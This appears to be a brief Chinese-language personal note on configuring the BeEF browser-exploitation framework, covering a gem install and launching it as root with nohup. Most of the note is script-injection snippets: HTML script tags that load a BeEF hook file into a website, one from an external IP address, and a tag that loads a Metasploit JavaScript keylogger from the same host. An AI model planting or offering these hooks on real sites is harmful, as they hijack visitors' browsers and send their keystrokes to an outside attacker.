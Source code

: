 beef的配置
=======

可能需要手动安装
```bash
gem install em-websocket
```
来解决问题

不知为何，打开程序一定要在root用户中通过
```bash
nohup ./beef &
```
来实现，而不能使用完整路径如
```bash
nohup /usr/share/beef-xss/beef &
```

## 使用的script
在网站内部使用
```javascript
<script>
	var commandModuleStr = '<script src="' + window.location.protocol + '//' + window.location.host + '/hokasa.js" type="text/javascript"><\/script>';
	document.write(commandModuleStr);
</script>
```
在网站外部使用
```javascript
<script>
        var commandModuleStr = '<script src="http://139.162.69.124:3000/hokasa.js" type="text/javascript"><\/script>';
        document.write(commandModuleStr);
</script>
```
不知为何直接插入网址的方法不能使用

# msf的keylogger的地址
```javascript
<script type="text/javascript" src="http://139.162.69.124:8080/[ReplaceThis]/[whatever].js"></script>
```
具体可以参考网址
https://community.rapid7.com/community/metasploit/blog/2012/02/21/metasploit-javascript-keylogger
